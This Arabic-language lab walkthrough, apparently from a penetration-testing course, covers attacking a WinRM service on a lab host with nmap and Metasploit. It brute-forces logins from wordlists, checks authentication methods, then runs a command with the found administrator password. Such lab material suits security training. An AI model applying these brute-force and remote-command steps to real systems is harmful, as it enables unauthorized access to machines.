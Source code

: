 
طبعا رابع لاب معنا فيه هذا الجزء هو اللاب

WinRM: Exploitation with Metasploit
------------------------------------|


طبع الان الـ WinRM 
نفس فكرة الـ RDP 
لكن command line 
يعني بيكون كسطر اوامر تتعامل معه باوامر وليس GUI

طبعا اول شي نسويه كلعاده معطينا الايبي وراح نفحص البورتات 
[nmap --top-ports 7000 10.0.0.173]
طبعا المفروض تستخدم -p- عشان يفحص جميع البورتات هذا الواقعي
ولكن اللاب مسهل علينا وقال استخدم هذا الامر

نشوف انه حصل البورت 
5985 وشغال عليها خدمة wsman الي هي WinRM
ونفس الفكره هي تاخذ منك يوزر وباسورد ف بنسوي بروت فورس بالـ MSFconsole
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/winrm/winrm_login] وظيفته يسوي بروت فورس
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نشوف انه طالب RHOST , USER_FILE , PASS_FILE
نعطيه القيم لهذي المتغيرات
[set RHOSTS 10.0.0.173]
[set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt]
[set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt]
[set VERBOSE false]
[exploit] or [run]

والان نشوف انه حصلنا يوزر وباسورد 
واليوزر كان administrator 

الان بنشوف وش يستخدم او وش يدعم من طريقة تحقق هذي الخدمة
ف بنستخدم MSFconsole
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/winrm/winrm_auth_methods]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نشوف انه طالب مننا RHOST 
نعطيه قيم المتغيرات
[set RHOSTS 10.0.0.173]
[exploit] or [run]
نشوف انه عطانا النتيجة زانه يستخدم هذي الطريقتين
Basic and Negotiate.

طبعا الان بنحاول ننفذ اوامر عن طريق MSFconsole
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/winrm/winrm_cmd]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نشوف انه طالب مننا RHOST , USERNAME , PASSWORD , CMD
نعطيه قيم المتغيرات
[set RHOSTS 10.0.0.173]
[set USERNAME administrator]
[set PASSWORD tinkerbell]
[set CMD whoami] هنا الامر الي نبي ننفذه على السيرفر
[exploit] or [run]
